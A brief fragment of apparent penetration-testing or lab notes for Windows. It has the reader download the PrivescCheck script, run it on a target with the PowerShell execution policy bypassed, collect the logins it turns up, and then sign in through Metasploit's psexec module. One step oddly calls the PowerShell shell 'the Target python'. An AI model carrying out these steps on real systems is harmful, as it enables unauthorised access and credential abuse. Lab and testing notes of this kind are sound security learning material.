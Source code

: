 - __1. Download the [PrivessCheck.ps1](https://github.com/itm4n/PrivescCheck.git) from the github__
  - __Execute this command in the Target python `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`__
  - __Here you will get some logins__
    - __use `psexec` `use exploit/windows/smb/psexec` to login into the system__
